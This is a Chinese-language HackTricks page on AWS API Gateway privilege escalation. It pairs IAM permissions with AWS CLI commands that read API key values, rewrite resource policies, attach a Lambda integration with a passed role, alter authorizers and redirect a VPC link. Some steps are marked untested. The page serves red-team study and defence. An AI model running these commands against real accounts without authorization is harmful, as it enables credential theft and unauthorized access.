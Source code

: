 # AWS - Apigateway Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Apigateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

拥有此权限，您可以生成已配置的 API 的 API 密钥（按区域）。
```bash
aws --region <region> apigateway create-api-key
```
**潜在影响：** 你无法通过此技术进行权限提升，但你可能会获得敏感信息的访问权限。

### `apigateway:GET`

通过此权限，你可以获取配置的 API 的生成 API 密钥（按区域）。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在影响：** 你无法通过这种技术进行权限提升，但你可能会获得敏感信息的访问权限。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

拥有这些权限后，可以修改API的资源策略，以便自己获得调用它的权限，并滥用API网关可能具有的潜在访问权限（例如调用一个脆弱的lambda）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在影响：** 通常情况下，您无法直接通过此技术进行权限提升，但您可能会获得敏感信息的访问权限。

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
需要测试
{% endhint %}

具有权限 `apigateway:PutIntegration`、`apigateway:CreateDeployment` 和 `iam:PassRole` 的攻击者可以 **向现有的 API Gateway REST API 添加一个带有 IAM 角色的 Lambda 函数的新集成**。攻击者可以 **触发 Lambda 函数以执行任意代码，并可能获得与 IAM 角色关联的资源的访问权限**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：访问与Lambda函数的IAM角色相关的资源。

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
需要测试
{% endhint %}

拥有权限`apigateway:UpdateAuthorizer`和`apigateway:CreateDeployment`的攻击者可以**修改现有的API Gateway授权者**以绕过安全检查或在进行API请求时执行任意代码。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：绕过安全检查，未经授权访问API资源。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
需要测试
{% endhint %}

拥有权限`apigateway:UpdateVpcLink`的攻击者可以**修改现有的VPC链接，使其指向不同的网络负载均衡器，可能将私有API流量重定向到未经授权或恶意的资源**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在影响**：未经授权访问私有API资源，拦截或干扰API流量。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
